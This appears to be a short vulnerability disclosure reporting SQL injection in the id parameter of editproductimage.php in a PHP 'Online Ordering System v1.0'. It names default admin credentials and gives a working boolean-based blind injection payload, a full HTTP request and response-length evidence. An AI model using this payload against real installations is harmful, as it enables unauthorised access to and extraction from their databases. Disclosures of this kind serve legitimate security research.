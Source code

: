 # Online Ordering System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/5125/online-ordering-system-using-phpmysql.html

Vulnerability File: /onlineordering/admin/editproductimage.php

Vulnerability location: /onlineordering/admin/editproductimage.php?id=,id

[+] Payload: /onlineordering/admin/editproductimage.php?id=19%27%20and%20length(database())%20=12--+ // Leak place ---> id

Current database name: shoppingcart,length is 12

```sql
GET /onlineordering/admin/editproductimage.php?id=19%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=v112m4jpgqqtdo86av7lvbjv3l
Connection: close
```

When length (database (()) = 11, Content-Length: 449

![image](https://user-images.githubusercontent.com/54017627/167339152-c5195ddb-9d3a-4557-9c74-773728b52df1.png)

![image](https://user-images.githubusercontent.com/54017627/167339190-e2a87e50-7d6e-405f-a432-7ddffe03aab2.png)

When length (database (()) = 12, Content-Length: 313

![image](https://user-images.githubusercontent.com/54017627/167339131-b952f5a0-a437-4490-a7bb-9d9d6aac5dda.png)

![image](https://user-images.githubusercontent.com/54017627/167339172-9eed5024-7c70-4916-9e40-0ebb515ad201.png)
